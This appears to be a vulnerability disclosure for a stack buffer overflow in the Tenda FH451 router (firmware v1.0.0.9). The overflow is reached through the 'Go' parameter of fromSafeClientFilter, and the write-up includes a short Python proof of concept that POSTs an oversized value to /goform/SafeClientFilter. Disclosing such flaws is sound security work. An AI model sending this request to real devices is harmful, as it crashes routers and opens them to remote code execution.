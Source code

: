# Tenda FH451 fromSafeClientFilter_Go
### Overview
vendor: Tenda

product: FH451

version: v1.0.0.9

type: Stack Overflow
### Vulnerability Description
Tenda FH451 v1.0.0.9 were discovered to contain a stack overflow via the Go parameter in the fromSafeClientFilter function.

### Vulnerability details
In function fromSafeClientFilter line 28, it reads in a user-provided parameter `Go`. The variable `s_1` is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/1.png)

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SafeClientFilter"

data = {
    "menufacturer": "tenda",
    "Go": "a" * 1000,
}

response = requests.post(url, data=data)
print(response.text)
```